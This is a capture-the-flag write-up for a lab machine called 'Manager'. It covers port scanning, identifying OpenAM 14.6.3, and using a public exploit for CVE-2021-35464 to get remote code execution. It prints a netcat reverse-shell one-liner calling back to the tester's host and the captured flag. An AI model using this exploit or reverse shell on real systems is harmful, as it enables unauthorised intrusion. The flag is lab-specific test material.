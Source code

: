 # Manager - User

Some basic info after starting the instance and connecting to the challenge VPN network via `openvpn` -  
Target IP - 10.129.173.138  
Local IP - 10.10.14.10
Verified that my local machine could talk to the target using `ping`.

# Information Gathering
Did a quick Nmap scan of the IP to list down detailed info about open ports, protocols, services running, OS info, version info and quickly see what the target looks like.
```
$ sudo nmap -A -T4 10.129.173.138 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 19:21 EDT
Nmap scan report for 10.129.173.136
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:a9:f3:f4:f6:a7:0e:9f:d0:25:b6:f4:21:df:6a:11 (RSA)
|   256 0b:b6:38:74:7d:97:bd:1e:a5:ef:35:f8:ef:4d:c6:a6 (ECDSA)
|_  256 81:29:51:ee:09:a8:91:ec:3f:dc:0d:50:d7:25:2a:46 (ED25519)
8080/tcp  open  http     Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
34571/tcp open  java-rmi Java RMI
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/26%OT=22%CT=1%CU=44213%PV=Y%DS=2%DC=T%G=Y%TM=60FF43C
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=C)SEQ(
OS:SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=
OS:M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE
OS:88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   78.46 ms 10.10.14.1
2   81.44 ms 10.129.173.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.27 seconds
```

A Tomcat webserver was running on `8080/tcp` and revealed some interesting info
```
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```

Added an entry in `/etc/hosts` file on my local machine for the DNS to work. Note the use of `sudo` to edit it because it's a system file owned by `root`.
```
$ sudo vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
10.129.173.136  manager.htb
```

Browsed to `http://manager.htb:8080/` and it redirected to a login form to OpenAM - Open Access Manager. OpenAM is an open-source access management, entitlements and federation server platform.

![OpenAM](./img/manager-user.png)

Gathered some header info from the `Network` tab in browser dev tools.

![headers](./img/manager-headers.png)

Found the OpenAM version - `v: 14.6.3`

Based on this initial info, did a quick search on the ExploitDB using `searchsploit` CLI tool to see if an exploit is available and surely there was one! 

```
$ searchsploit openam 14.6.3
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                                     | java/webapps/50131.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Fetched the exploit

```
$ searchsploit -m 50131
  Exploit: ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50131
     Path: /usr/share/exploitdb/exploits/java/webapps/50131.py
File Type: UTF-8 Unicode text, with very long lines, with CRLF line terminators

Copied to: /home/kali/50131.py
```

Reviewed the exploit code to check if any edits are necessary for the exploit to work correctly and also to make sure the exploit did only what it said it did and nothing more. In this case, only the target URL was modified as applicable.  
> Note: ALWAYS review any exploit that you have not written before using it.

```
## Static vars; change at will, but recommend leaving as is
sURL = 'http://10.129.173.138:8080/openam'
```

Renamed the exploit name. This really was optional but I like to name them something meaningful and easy to recognize. 

```
$ mv 50131.py CVE-2021-35464.py
```

Now the exploit was ready to be used.

# Exploit and Solve

Did a quick check using `id` to see if the exploit was returning expected results.

```
$ python3 CVE-2021-35464.py -c id http://manager.htb:8080/openam/

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "id" now:

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Perfect! Remote Command Execution (RCE) worked. I also verified that netcat was available at `/bin/nc`. Now all I needed was a reverse shell on the target and my go to cheat sheet for a variety of them is [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

I chose to use the below. Notice the modified IP, port and shell choice.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f
```

Started a `nc` listener to receive the reverse shell

```
$ nc -nlvp 1234
listening on [any] 1234 ...
```

Executed the exploit

```
$ python3 CVE-2021-35464.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" http://manager.htb:8080/openam/                                                  

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" now:
```

Connection and shell received

```
connect to [10.10.14.10] from (UNKNOWN) [10.129.173.138] 48794
tomcat@manager:/$ whoami
whoami
tomcat
tomcat@manager:/$ ls ~
ls ~
accessmanager  conf    lib   openam  user.txt  work
bin            config  logs  temp    webapps
tomcat@manager:/$ cat user.txt  
cat user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

Flag - `HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}`